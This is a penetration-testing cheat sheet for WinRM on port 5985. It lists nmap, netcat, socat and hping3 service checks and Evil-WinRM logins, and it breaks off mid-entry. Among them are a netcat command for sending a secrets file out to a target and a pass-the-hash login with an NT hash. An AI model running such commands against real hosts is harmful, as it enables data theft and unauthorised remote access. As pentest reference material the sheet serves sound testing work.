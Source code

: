 #### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 5985
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 5985
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 5985 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 5985
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 5985 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:5985
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 5985
    ```

#### \[\[Evil-WinRM Cheat Sheet]]

*   **Connect to a host:**

    ```bash
    evil-winrm --ip <target_ip> --user <username> --password <password>
    ```
*   **Connect to a host, passing the password hash:**

    ```bash
    evil-winrm --ip <target_ip> --user <username> --hash <nt_hash>
    ```
*   **Connect to a host, specifying directories for scripts and executables:**
